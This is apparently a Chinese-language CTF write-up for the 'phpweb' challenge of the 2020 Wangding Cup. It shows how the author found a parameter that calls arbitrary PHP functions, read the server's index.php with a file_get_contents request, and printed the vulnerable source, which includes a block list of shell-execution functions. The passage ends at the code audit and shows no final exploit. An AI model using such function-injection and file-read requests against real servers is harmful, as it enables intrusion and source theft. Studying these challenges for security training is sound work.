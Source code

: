 ## [网鼎杯 2020 朱雀组]phpweb

打开题目环境，没发现源码泄露，尝试BurpSuite抓包

发现关键参数，猜测可以执行任意文件

```
func=date&p=Y-m-d h:i:s a
```

尝试执行phpinfo失败，应该是有waf，尝试读取文件成功

```
func=file_get_contents&p=index.php
```

代码审计

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```
